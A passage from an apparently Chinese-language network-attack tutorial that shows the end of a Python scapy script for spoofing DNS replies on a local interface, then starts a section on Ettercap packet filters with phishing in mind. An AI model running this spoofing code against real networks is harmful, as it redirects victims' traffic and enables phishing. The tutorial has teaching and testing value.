 ```bash
                        an = dns_answer
                    )
            print "Send %s has %s to %s" % (queried_host,resolved_ip,ip.src)
            scapy.send(dns_reply, iface=dev)
 
def usage():
    print sys.argv[0] + ' -f <hosts-file>  -i <dev>'
    sys.exit(1)
 
def parse_host_file(file):
    for line in open(file):
        line  = line.rstrip('\n')
 
        if line:
            (ip, host) = line.split()
            dns_map[host] = ip
try:
    cmd_opts = 'f:i:'
    opts, args = getopt.getopt(sys.argv[1:], cmd_opts)
except getopt.GetoptError:
    usage()
 
for opt in opts:
    if opt[0] == '-i':
        dev = opt[1]
    elif opt[0] == '-f':
        file = opt[1]
    else:
        usage()
 
if file:
    parse_host_file(file)
else:
    usage()
 
print "Spoofing DNS requests on %s" % dev
scapy.sniff(iface=dev, filter=filter, prn=handle_packet)
```
<span style="font-size: 15px;">　　上面的两个脚本的核心之处是使用了scapy（http://www.secdev.org/projects/scapy/doc/usage.html#starting-scapy）这个网络库，其功能十分的强大，使用简介，基本只需几行代码就可以进行特定的攻击，有时间要好好研究研究。</span>

### Ettercap的包过滤：

　　Ettercap的包过滤是一个比较好玩的功能了。再结合一点钓鱼技术的话，危害就比较大了。下面简单介绍几种过滤实例：

　　Ettercap目录下也自带了一些过滤规则：

　　![img](../../../../_ImageAssets/270035332621747-1573358989635.png)
